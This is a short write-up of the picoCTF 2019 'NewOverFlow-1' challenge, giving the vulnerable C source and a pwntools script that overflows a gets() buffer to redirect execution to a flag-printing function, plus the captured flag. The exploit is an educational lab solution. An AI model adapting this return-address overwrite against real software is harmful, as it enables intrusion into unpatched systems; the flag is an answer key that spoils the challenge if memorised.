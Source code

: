 # NewOverFlow-1
```cpp
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
}
```
We need to call vuln again.

However using the same aproach as [overflow 1](../3-overflow-1) gives a segfault. Due to stack alginment reasons it wount. However [people](https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/binary-exploitation/#solution-4) [figured](https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/NewOverFlow-1.md) out that by puting the main address before the flag adress, it somehow makes the stack align.

Using radare2 to get the jump points, we can adapt previous code to get this.
```python
from os import environ
from pwn import *

PATH='/problems/newoverflow-1_1_39d472170ee5080cac1226374a7101a7'
EXEC='vuln'

flag_call_adr = 0x00400767
main_call_adr = 0x004007e8

send = (0x40+8)*b'x' + p64(main_call_adr) + p64(flag_call_adr)

s = ssh(host='2019shell1.picoctf.com',
        user=environ["PICOUSER"],
        password=environ["PICOPSWD"])

sh = s.process(EXEC, cwd=PATH)

sh.sendlineafter('Welcome to 64-bit. Give me a string that gets you the flag: ', send)
sh.sendline(b' ')
x = sh.recvrepeat()

print(x.decode(errors='ignore'))

s.close()
```
flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_cfe23f2b}`